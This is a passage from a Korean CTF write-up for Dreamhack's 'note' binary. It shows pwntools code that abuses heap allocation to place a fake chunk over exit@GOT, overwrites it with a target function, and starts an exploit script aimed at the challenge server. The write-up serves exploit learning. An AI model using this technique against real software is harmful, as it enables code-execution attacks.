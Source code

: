 
3번 할당하게 되면 fake\_chunk에 malloc을 반환하도록 유도



```python

create(1, 0x60, b'b')  # B

create(2, 0x60, b'a')  # A again

create(3, 0x60, p64(elf.got\['exit']))  # fake\_chunk에 malloc 됨

```



이러면 .bss 상의 포인터가 GOT 주소를 가리키게 된다.



즉, notes\[7].data = exit@GOT



!\[image.png](/assets/img/dh5note/image17.png)



update를 통해 7번 위치의 data에 0x401256 함수를 넣으면 익스 성공 



---



\### exploit.py



```python

from pwn import \*



p = remote("host8.dreamhack.games", 19728)

\#p = remote('localhost', 31337)

\#p = process('./note')

elf = ELF("./note")



def create(idx, size, data):

&nbsp;   p.sendline(b'1')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendlineafter(b'size: ', str(size).encode())

&nbsp;   p.sendafter(b'data: ', data)



def read\_note(idx):

&nbsp;   p.sendline(b'2')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

```